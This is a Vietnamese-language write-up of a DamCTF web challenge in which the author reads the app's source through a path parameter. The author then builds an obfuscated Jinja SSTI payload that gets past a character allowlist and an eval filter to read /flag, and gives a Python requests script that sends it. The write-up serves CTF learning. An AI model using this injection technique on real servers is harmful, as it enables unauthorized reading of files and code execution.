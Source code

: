![img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/4.png)
</br>
tôi rất là vui vì đội solve bài này lượt thứ 6 là đội của tôi, đây là lần đầu trong một cuộc thi ctf mà tôi solve nhanh như vậy
![img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/5.png)

bài này tác giả có cho `super-secure-translation-implementation.zip` một file zip để tải về nhưng thật ra bên trong chẳng có gì ngoài tệp __Dockerfile__ giúp ta xác định được vị trí của flag
</br> đây là giao diện của website khi ta vào
![img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/6.png)
source code được hiển thị rõ
```@server.route("/")
@server.route("/<path>")
def index(path=""):
    # Show app.py source code on homepage, even if not requested.
    if path == "":
        path = "app.py"

    # Make this request hackproof, ensuring that only app.py is displayed.
    elif not os.path.exists(path) or "/" in path or ".." in path:
        path = "app.py"

    # User requested app.py, show that.
    with open(path, "r") as f:
        return render_template("index.html", code=f.read())
  ``` 
  Bằng cách chèn __/path__ giúp ta có thể đọc file trong thư mục __/chal__ vì dấu `..` và `/` đã bị filter nên không thể đọc bên ngoài thư mục __/chall__
  ```
from check import detect_remove_hacks
from filters import *
```
để ý đoạn này, tệp app.py có tham chiếu đến 2 file khác là __check.py__ và __filters.py__ vậy ta chỉ cần truy cập đến 
đường dẫn `https://super-secure-translation-implementation.chals.damctf.xyz/check.py` để đọc tệp __check.py__ 
![img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/7.png)
và đường dẫn `https://super-secure-translation-implementation.chals.damctf.xyz/filters.py` để đọc tệp __filters.py__
![img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/8.png)
</br>tóm tắt là chỉ cần chèn payload vào __/secure_translate?payload=__ để tấn công ssti và chỉ có một số ký tự được cho phép còn lại đều bị chặn
```  
allowlist = [
        "c", "{","}","d","6","l","(","b","o","r",")",'"',"1","4","+","h","u","-","*","e","|","'",
 ]
```
và ở tệp __app.py__ có những dòng lệnh này
```
server = Flask(__name__)

# Add filters to the jinja environment to add string
# manipulation capabilities
server.jinja_env.filters["u"] = uppercase
server.jinja_env.filters["l"] = lowercase
server.jinja_env.filters["b64d"] = b64d
server.jinja_env.filters["order"] = order
server.jinja_env.filters["ch"] = character
server.jinja_env.filters["e"] = e
```
tóm gọn là ý nghĩa rằng hàm e là __eval__ và hàm ch là __chr__, ta sẽ quan tâm một xíu ở hàm e (đọc file filters.py)
```
def e(x):
    # Security analysts reviewed this and said eval is unsafe (haters).
    # They would not approve this as "hack proof" unless I add some
    # checks to prevent easy exploits.

    print(f"Evaluating: {x}")

    forbidlist = [" ", "=", ";", "\n", ".globals", "exec"]

    for y in forbidlist:
        if y in x:
            return "Eval Failed: Foridlist."

    if x[0:4] == "open" or x[0:4] == "eval":
        return "Not That Easy ;)"

    try:
        return eval(x)
    except Exception as exc:
        return f"Eval Failed: {exc}"
```
4 ký tự đầu không được là __open__ và __exec__ , payload ban đầu của tôi là `{{(""+open('/flag').read())|e}}` để bypass filter tôi đã sửa thành `{{('""%2bo'%2b((111%2b1)|ch)%2b'e'%2b((111-1)|ch)%2b'("'%2b((46%2b1)|ch)%2b((114-11-1)|ch)%2b'l'%2b((46%2b46%2b6-1)|ch)%2b((114-11)|ch)%2b'")'%2b(46|ch)%2b're'%2b((46%2b46%2b6-1)|ch)%2b'd()')|e}}` độ dài payload 153, giới hạn độ dài của tác giả là 161
</br> và đây là
flag mà tôi tìm được __dam{p4infu1_all0wl1st_w3ll_don3}__
</br> cách giải của tôi. bài này mệt vl mất 1h
```

import requests
s = requests.session()
payload='''{{('""%2bo'%2b((111%2b1)|ch)%2b'e'%2b((111-1)|ch)%2b'("'%2b((46%2b1)|ch)%2b((114-11-1)|ch)%2b'l'%2b((46%2b46%2b6-1)|ch)%2b((114-11)|ch)%2b'")'%2b(46|ch)%2b're'%2b((46%2b46%2b6-1)|ch)%2b'd()')|e}}''' 

url = 'https://super-secure-translation-implementation.chals.damctf.xyz/secure_translate/?payload='+payload
res = s.get(url).text
print(res)
```
